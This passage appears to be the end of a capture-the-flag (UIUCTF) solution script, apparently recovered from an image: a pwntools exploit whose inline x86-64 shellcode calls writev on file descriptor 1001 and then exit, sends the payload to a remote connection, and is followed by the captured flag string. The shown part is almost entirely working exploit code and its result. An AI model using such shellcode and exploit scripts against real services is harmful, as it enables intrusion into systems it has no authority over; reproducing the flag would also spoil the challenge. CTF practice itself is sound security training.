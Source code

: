 ```python
    push rbx
    mov rbx, rax
    push rbx
    
    // writev
    mov rdi, 1001
    mov rsi, rsp
    mov rdx, 1
    mov rax, 0x14
    syscall

    // exit
    mov rax, 60                
    xor rdi, rdi           
    syscall
    ''')


    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    main()

```

```
#uiuctf{a532aaf9aaed1fa5906de364a1162e0833c57a0246ab9ffc}
```